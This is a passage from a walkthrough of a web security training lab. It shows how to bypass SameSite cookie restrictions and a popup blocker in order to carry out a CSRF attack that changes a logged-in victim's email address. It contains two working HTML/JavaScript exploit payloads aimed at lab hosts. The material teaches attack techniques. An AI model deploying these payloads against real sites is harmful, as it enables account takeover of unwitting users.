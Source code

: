 - In this case, repeat this step immediately.
- If you logged in less than two minutes ago, the attack is successful and your email address is changed. 
- From the Proxy > HTTP history tab, find the POST /my-account/change-email request and confirm that your session cookie was included even though this is a cross-site POST request.

## Bypass the SameSite restrictions
- In the browser, notice that if you visit /social-login, this automatically initiates the full OAuth flow. 
- If you still have a logged-in session with the OAuth server, this all happens without any interaction.
- From the proxy history, notice that every time you complete the OAuth flow, the target site sets a new session cookie even if you were already logged in.

## Go back to the exploit server.
- Change the JavaScript so that the attack first refreshes the victim's session by forcing their browser to visit /social-login, then submits the email change request after a short pause. The following is one possible approach:

```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@web-security-academy.net">
</form>
<script>
    window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
    setTimeout(changeEmail, 5000);

    function changeEmail(){
        document.forms[0].submit();
    }
</script>
```

- Note that we've opened the /social-login in a new window to avoid navigating away from the exploit before the change email request is sent.
- Store and view the exploit yourself. Observe that the initial request gets blocked by the browser's popup blocker.
- Observe that, after a pause, the CSRF attack is still launched. 
- However, this is only successful if it has been less than two minutes since your cookie was set. If not, the attack fails because the popup blocker prevents the forced cookie refresh.

## Bypass the popup blocker
- Realize that the popup is being blocked because you haven't manually interacted with the page.
- Tweak the exploit so that it induces the victim to click on the page and only opens the popup once the user has clicked. The following is one possible approach:

```
<form method="POST" action="https://0aee00be03ae08db8191b70800ec00e3.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://0aee00be03ae08db8191b70800ec00e3.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```